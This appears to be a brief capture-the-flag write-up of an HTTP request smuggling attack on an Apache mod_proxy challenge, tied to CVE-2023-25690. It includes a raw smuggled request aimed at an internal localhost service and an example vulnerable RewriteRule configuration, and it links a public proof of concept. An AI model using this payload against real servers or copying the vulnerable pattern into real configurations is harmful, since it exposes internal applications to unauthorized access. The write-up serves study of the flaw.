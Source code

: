 # HTTP Parameter Pollution

## Website 

<img src= "htbank_website.PNG">

## Description



## Set Up

1. Burpsuite Repeater.
2. Had to run the application locally for debugging purposes.
3. Reading a lot of Apache documentation. 
4. Request before being url encoded:
  ```html
GET /api/games/click_topia HTTP/1.1

Host: dev.apacheblaze.local



GET / HTTP/1.1

Host: localhost:1337
```
## Exploit
<img src= "exploited_html_)smuggling.PNG">

## More Information
Some mod_proxy configurations on Apache HTTP Server versions 2.4.0 through 2.4.55 allow a HTTP Request Smuggling attack. Configurations are affected when mod_proxy is enabled along with some form of RewriteRule or ProxyPassMatch in which a non-specific pattern matches some portion of the user-supplied request-target (URL) data and is then re-inserted into the proxied request-target using variable substitution. For example, something like:
```python
RewriteEngine on 
RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1"; [P] 
ProxyPassReverse /here/ http://example.com:8080/
```
[CVE-2023-25690-POC](https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
<summary> The impact of this vulnerability is that it allows attackers to target and access internal applications that are meant to be hidden by the reverse proxy, potentially leading to unauthorized access, data leakage, or further exploitation.</summary>



